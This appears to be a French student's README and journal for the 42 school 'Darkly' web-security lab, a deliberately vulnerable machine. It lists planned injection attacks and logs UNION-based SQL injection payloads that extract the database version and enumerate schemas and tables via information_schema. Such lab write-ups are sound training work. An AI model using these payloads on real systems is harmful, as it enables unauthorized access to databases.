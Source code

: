 # darkly
projet de web secu de 42


les faille que je prevois de croiser :
-injection sql sur une recherche 
-injection sql sur login
-injeciton de donner sur l upload dimage
-injection js
-injection php (j ai croiser ca sur internet mais je ne suis pas sur de ocomment ca marche)


29novembre :
je comprend comment lancer la machine grace a ce lien que de sympathique gens m on donner sur discord 
https://github.com/AdonisEnProvence/Darkly#setup
je me rend compte que les recherche de photos et d user renvois des erreurs sql 
il y a probablement moyen d y injecter des choses
je testes des trucs

30 novembre : 
je test plein de solution dinjeciton sql et une trouver sur se stie touche enfin 
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
 ## 0 UNION ALL SELECT NULL,version()-- 
c est top ca renvoi la version qui est : 5.5.64-MariaDB-1ubuntu0.14.04.1
 ## 0 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata--
me donne les titre des colonnes
- information_schema
- Member_Brute_Force
- Member_Sql_Injection
- Member_guestbook
- Member_images
- Member_survey
0 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES --

